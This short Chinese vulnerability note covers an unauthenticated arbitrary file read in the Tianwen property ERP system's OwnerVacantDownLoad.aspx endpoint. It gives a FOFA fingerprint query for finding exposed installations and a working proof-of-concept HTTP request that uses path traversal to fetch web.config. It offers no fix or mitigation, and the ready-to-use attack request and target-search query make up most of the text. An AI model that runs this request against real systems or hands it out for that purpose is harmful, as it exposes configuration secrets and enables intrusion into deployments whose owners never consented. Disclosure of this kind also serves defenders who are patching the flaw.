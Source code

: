 # 天问物业ERP系统OwnerVacantDownLoad存在任意文件读取漏洞

天问物业ERP系统`  /HM/M_main/InformationManage/OwnerVacantDownLoad.aspx `接口处存在任意文件读取漏洞，未经身份验证的攻击者可以利用此漏洞读取系统内部配置文件，造成信息泄露，导致系统处于极不安全的状态。

## fofa

```yaml
body="天问物业ERP系统" || body="国家版权局软著登字第1205328号" || body="/HM/M_Main/frame/sso.aspx"
```

## poc

```java
GET /HM/M_main/InformationManage/OwnerVacantDownLoad.aspx?OwnerVacantFile=../web.config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

